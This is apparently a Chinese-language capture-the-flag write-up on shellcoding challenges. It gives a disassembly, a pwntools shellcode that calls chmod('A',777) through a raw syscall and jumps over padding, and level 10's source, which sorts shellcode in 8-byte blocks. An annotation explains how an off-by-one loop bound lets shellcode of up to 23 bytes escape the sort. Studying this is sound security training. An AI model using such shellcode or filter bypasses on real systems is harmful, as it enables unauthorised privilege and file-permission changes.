 ```
0x0000000016ec6007 | eb 0b                                         | jmp 0x16ec6014
0x0000000016ec6009 | 90                                            | nop 
0x0000000016ec600a | cc                                            | int3 
0x0000000016ec600b | cc                                            | int3 
0x0000000016ec600c | cc                                            | int3 
0x0000000016ec600d | cc                                            | int3 
0x0000000016ec600e | cc                                            | int3 
0x0000000016ec600f | cc                                            | int3 
0x0000000016ec6010 | cc                                            | int3 
0x0000000016ec6011 | cc                                            | int3 
0x0000000016ec6012 | cc                                            | int3 
0x0000000016ec6013 | cc                                            | int3 
0x0000000016ec6014 | 5e                                            | pop rsi
0x0000000016ec6015 | b0 5a                                         | mov al, 0x5a
0x0000000016ec6017 | 0f 05                                         | syscall 
```
```python
shellcode = asm("""
    /*  chmod('A',777) */
    push 0x41
    mov rdi, rsp
    push 777
    pop rsi
    jmp continue
    .rept 10
    nop
    .endr
continue:
    push 0x5a
    pop rax
    syscall
""")
```
# level 10 对 shellcode 字节进行排序
> 题目源码如下：

```c
    uint64_t *input = shellcode_mem;
    int sort_max = shellcode_size / sizeof(uint64_t) - 1;   
// 这里有个漏洞，sizeof(uint64_t)是8字节。
// 也就是说shellcode小于8字节时候，sort_max=-1 ; 8~16字节时候，sort_max=0,第一层for循环条件不满足，将不会进行排序
// 16~24字节时候，由于第二层for循环不满足，因此也不会进行排序
// 24~32字节时候，会进行一次排序，
    for (int i = 0; i < sort_max; i++)
        for (int j = 0; j < sort_max-i-1; j++)
            if (input[j] > input[j+1])
            {
                uint64_t x = input[j];
                uint64_t y = input[j+1];
                input[j] = y;
                input[j+1] = x;
            }

```
> 解析：程序会将输入的的 shellcode 按照 8 字节分块，然后冒泡排序比较的目标是每一块首个字节的大小【遵循大字节块放前面原则】
> 由于本题源码中 for 循环内 j 的上界多减了一次 1，因此使得绕过排序的最长 shellcode 字节数达到了 23 字节。
